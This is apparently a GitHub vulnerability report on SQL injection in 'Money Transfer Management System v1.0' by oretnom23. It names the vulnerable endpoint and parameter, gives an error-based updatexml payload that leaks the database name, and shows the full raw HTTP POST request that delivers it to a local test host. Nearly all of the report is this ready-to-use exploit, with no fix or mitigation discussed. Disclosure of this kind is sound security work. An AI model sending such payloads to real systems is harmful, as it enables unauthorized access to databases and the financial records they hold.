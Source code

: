 # Money Transfer Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15015/money-transfer-management-system-send-money-businesses-php-free-source-code.html

Vulnerability File: \mtms\classes\Master.php?f=delete_transaction

Vulnerability location: /mtms/classes/Master.php?f=delete_transaction, id

[+] Payload: id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /mtms/classes/Master.php?f=delete_transaction HTTP/1.1
Host: 192.168.1.19
Content-Length: 65
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.19
Referer: http://192.168.1.19/mtms/admin/?page=transaction
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bnvs2lhahed1884v0nf12nt52s
Connection: close

id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id
```

![image](https://user-images.githubusercontent.com/54017627/164725192-db310e54-abff-49a4-9848-253b87589225.png)

